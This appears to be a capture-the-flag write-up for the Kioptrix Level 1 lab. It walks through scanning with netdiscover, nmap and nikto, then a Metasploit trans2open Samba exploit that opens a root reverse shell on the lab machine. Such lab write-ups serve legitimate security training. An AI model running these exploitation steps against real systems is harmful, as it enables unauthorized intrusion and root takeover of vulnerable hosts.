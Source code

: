 ### Info Sec Writeup
![](https://miro.medium.com/v2/resize:fit:1167/1*oWMF_MkRygQnrbdi_k6Q6A.jpeg)

Kioptrix is a boot to root challenge which you can download from [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/). You can download and install it on your virtual machine.
![](https://miro.medium.com/v2/resize:fit:1167/1*ENRn1Sf2xbDMVN7s0oA_7w.png)

**Description**
	This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

**Methodology**
	- Network Scanning
	- Enumeration
	- Exploitation
	- Gaining root access

**Used Tools**
	- Nmap
	- Nikto
	- Metasploit


Turn on your attacking machine (Kioptrix 1.0 Virtual Machine) and scan the local network for getting the victim's IP address. You can use **netdiscover** command for that.

> `sudo netdiscover`
![](https://miro.medium.com/v2/resize:fit:1167/1*U-RFqO257sI6ZZ06PYCZig.png)
![](https://miro.medium.com/v2/resize:fit:1167/1*HClrkBOeNhRBQn3Ud0WTNQ.png)

After getting the IP address of the target we are going to enumerate the target for open ports and protocols. I have used Nmap aggressive command for that. Please consider your target IP address may be different from mine.

- Here is my nmap result but this may slightly different from yours because I have installed Nmap scripts for my machine.

> `nmap -A 192.168.1.14 -oN results.txt`
- oN -To save the output into a file

![](https://miro.medium.com/v2/resize:fit:1167/1*P13bMXBr0vKq5d-_3omBZQ.png)
![](https://miro.medium.com/v2/resize:fit:1167/1*fgtBhZ8m3RopnkmDHRorLw.png)
![](https://miro.medium.com/v2/resize:fit:1167/1*PghaNTfpsA4rHPUs7Vqraw.png)

Since port 80 is open and that’s running apache service. So, I tried to look at it. But that is only a test page.
![](https://miro.medium.com/v2/resize:fit:1167/1*GSBBL-oyXe3GDs2YhiAmDg.png)

Then I viewed the page source to get more information. But it doesn’t give much information.
![](https://miro.medium.com/v2/resize:fit:1167/1*xOYnO-LAh-4JeBagsvEGfQ.png)

Then I used **nikto** vulnerability scanning with the help of the following command.
> `nikto -h http://192.168.1.14`
![](https://miro.medium.com/v2/resize:fit:1167/1*4GIKZP3mga633UheoyHGEA.png)

Since with help of the above enumeration, it becomes clear that the lab can exploit in multiple therefore without wasting time we execute the following command with help of Metasploit and try to comprise the target’s VM machine.

This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they apparently do not allow anonymous access to IPC.

I used Metasploit to exploit this vulnerability.
To start Metasploit DB we can use the following commands.
> `sudo msfdb init`
> `msfconsole`
![](https://miro.medium.com/v2/resize:fit:1167/1*clrryJFJZ-bZgwq3myhZBg.png)

Then we search the vulnerability and configure options for exploitation.
> `search trans2open`
![](https://miro.medium.com/v2/resize:fit:1167/1*uGV8jiy-wJgJQlD0272D4A.png)

> `use exploit/linux/samba/trans2open`

We can use **options** command to see the options.
![](https://miro.medium.com/v2/resize:fit:1167/1*GmggA3F47WLIQIgr1X6fDA.png)

Then configure the remote host(RHOST), Localhost (LHOST), and the payload. Here we use the reverse_tcp shell to escalate the privileges.
```bash
> msf exploit(linux/samba/trans2open) > set RHOST192.168.1.14
> msf exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
> msf exploit(linux/samba/trans2open) > set lhost 192.168.1.15
> msf exploit(linux/samba/trans2open) > exploit
```

![](https://miro.medium.com/v2/resize:fit:1167/1*sxWwtjjuSwhtaisNpZjk9g.png)

Booom!! Here we have a command shell of the victim’s machine with root access.
